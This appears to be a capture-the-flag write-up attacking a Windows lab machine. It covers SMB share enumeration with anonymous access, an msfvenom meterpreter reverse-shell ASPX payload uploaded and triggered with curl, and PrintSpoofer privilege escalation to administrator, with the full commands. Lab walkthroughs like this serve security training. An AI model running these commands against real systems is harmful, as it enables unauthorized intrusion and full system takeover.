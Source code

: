 ## Enumeration
First we run an nmap scan on the ip given which reveals 2 web servers and smb servers.

Looking at the http website for this there is nothing significant there.
So we can enumerate the smb shares on this server.

`nmap --script=smb-enum-* HOST-IP -oN smb_enum.nmap`

## Recon
We find a peculiar share named `/nt4wrksv` on it.

Logging into it using smbclient: `smbclient //HOST-IP/nt4wrksv` and pasword is blank.

We see a passwords file with base64 encoded passwords in it. I thought this could be useful but it wasn't.

Bit of the dead end here.
So I did a gobuster search on the web server running on port `49663`. We find a directory there called `nt4wrksv`. 
We can access the passwords.txt file on this web server meaning if we upload a reverse shell to this share and trigger it using the web server we can work with something.

## Exploitation
So I made a payload using msfvenom to upload into the share using smbclient.

To get the info on arch google the service info form the nmap scan.

`msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 LHOST=tun0 LPORT=4444 -f aspx -o rev.aspx`

We upload this to nt4wrksv share using the `put` command.
Now we set up a handler on metasploit.

`use exploit/multi/handler    
 set payload windows/x64/meterpreter/reverse_tcp    
 set lhost tun0    
 set lport 4444    
 run    
`

Now that we have this setup we can trigger the rev.aspx either by a curl command or by manually going there in a web browser.

`curl http://HOST-IP:49663/nt4wksv/rev.aspx`

The reason I used a meterpreter shell rather than a normal reverse shell is because I can execute all linux commands on meterpreter and it works on windows server.

We get a meterpreter shell now. We can navigate over to `C:/Users/Bob/` where we have our user.txt file.

## Privilege Escalation
if we see the `whoami /priv` , it will list all privileges accessible for the user Bob.

We can see here that `SeImpersonatePrevilige` is enabled. Hence, we can a use a tool called [printspoofer](https://github.com/dievus/printspoofer) to get root access.

We download this onto our machine and upload through the `upload` command in meterpreter and run this: `PrintSpoofer.exe -i -c cmd`

Now we have root access. We can go to the directory `c:/users/administartor/desktop` and print out the root flag.
